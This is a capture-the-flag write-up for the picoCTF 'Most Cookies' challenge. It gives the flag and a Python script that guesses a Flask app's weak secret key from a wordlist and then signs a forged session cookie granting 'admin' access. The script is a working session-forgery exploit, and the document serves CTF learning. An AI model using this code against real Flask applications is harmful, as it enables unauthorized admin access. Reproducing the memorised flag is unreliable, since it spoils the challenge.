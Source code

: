 # Most Cookies

**Flag:** `picoCTF{pwn_4ll_th3_cook1E5_478da04c}`

- **step 1**

    Identifying the secret key using the `itsdangerous` module and then using that to encode the cookie `very_auth=admin`.

    ```python
    from flask.sessions import SecureCookieSessionInterface
    from itsdangerous import URLSafeTimedSerializer
    from itsdangerous.exc import BadTimeSignature

    class SimpleSecureCookieSessionInterface(SecureCookieSessionInterface):
        def get_signing_serializer(self, secret_key):
            if not secret_key:
                return None
            signer_kwargs = dict(
                key_derivation=self.key_derivation,
                digest_method=self.digest_method
            )
            return URLSafeTimedSerializer(secret_key, salt=self.salt,
                                        serializer=self.serializer,
                                        signer_kwargs=signer_kwargs)

    def decodeFlaskCookie(secret_key, cookieValue):
        sscsi = SimpleSecureCookieSessionInterface()
        signingSerializer = sscsi.get_signing_serializer(secret_key)
        return signingSerializer.loads(cookieValue)

    def encodeFlaskCookie(secret_key, cookieDict):
        sscsi = SimpleSecureCookieSessionInterface()
        signingSerializer = sscsi.get_signing_serializer(secret_key)
        return signingSerializer.dumps(cookieDict)

    cookies = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

    d = {u"very_auth":"admin"}

    str = "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.ZzG9hg.PRhHYIDFQdt8ijTHkNY-aodVQHE"

    for cookie in cookies:
        try:
            decodeFlaskCookie(cookie,str)
        except BadTimeSignature:
            continue
        sk = cookie
        print(sk)

    encoded = encodeFlaskCookie(sk,d)

    print(encoded)
    ```
- **step 2**

    The new encoded cookie can be pasted in place of the existing value.

    ![alt text](../../_images/image12.png)

    Refreshing the site gives the flag.

    ![alt text](../../_images/image11.png)

**References**

- https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe